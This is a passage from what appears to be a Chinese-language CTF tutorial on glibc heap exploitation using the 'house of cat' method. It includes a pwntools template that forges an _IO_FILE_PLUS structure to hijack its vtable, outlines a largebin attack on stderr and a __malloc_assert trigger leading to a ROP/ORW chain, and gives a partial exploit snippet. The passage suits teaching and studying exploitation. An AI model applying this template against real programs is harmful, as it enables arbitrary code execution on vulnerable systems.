 ```c
fake_struct += p64(0)                   #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(call_addr)           #_IO_save_end = call_addr
fake_struct += p64(0)                   #_markers
fake_struct += p64(0)                   #_chain
fake_struct += p64(0)                   #_fileno
fake_struct += p64(0)                   #_old_offset
fake_struct += p64(0)                   #_cur_column
fake_struct += p64(heap_base + 0x200)   #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0)                   #_offset
fake_struct += p64(0)                   #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0)                   #_freers_list
fake_struct += p64(0)                   #_freers_buf
fake_struct += p64(0)                   #__pad5
fake_struct += p32(0)                   #_mode
fake_struct += b"\x00"*20               #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6                 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2

payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
```
##### &emsp;&emsp;&emsp;在具体使用时, 需要更改```fake_io_addr```为伪造的fake_IO的堆的地址, _IO_save_end为要调用的函数(即call_addr), _IO_backup_base为执行函数时的rdx, 以及修改_flags(即rdi)为执行函数时的rdi<br>
##### &emsp;&emsp;&emsp;

#### &emsp; __malloc_assert举例
##### &emsp;&emsp;&emsp;这里以那道著名的 ```house of cat``` 举例, 但是只关注largebin的部分, 绕过沙箱的部分忽略.<br> &emsp;&emsp;&emsp;使用了```__malloc_assert```触发orw的方法<br>&emsp;&emsp;&emsp;
##### &emsp;&emsp;&emsp;第一步是要先泄露出libc和heap基址, 这部分省略, 请各显神通<br>
##### &emsp;&emsp;&emsp;第二步是伪造一个_IO_FILE_PLUS结构, 用于绕过检查以及劫持虚表<br>
##### &emsp;&emsp;&emsp;第三步是通过largebin attack将stderr使用伪造的结构体替换, <br>
##### &emsp;&emsp;&emsp;第四步, 弄一个ROP或者是ORW之类的, 和二三步顺序可以互换<br>
##### &emsp;&emsp;&emsp;第五步, 想办法触发__malloc_assert, 常用的办法是修改top chunk size<br>
##### &emsp;&emsp;&emsp;模板中的```call_addr```修改为```setcontext+61```, 并在```rop_addr```指示的堆地址填入需要的rop链

##### &emsp;&emsp;&emsp;完整exp可以看https://xz.aliyun.com/t/13016?time__1311=GqmhBKYKGIqGx0HQ1DunFG8YwpVDpYD, 这里对伪造的部分做更具体地解释<br>
##### &emsp;&emsp;&emsp;
```python
...
free(0) # fwd
...
# fake io struct
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)

free(2) # addr(2) = addr(4) , 疑似是为了方便计算偏移
add(4,0x418,payload) 
free(4) # victim

```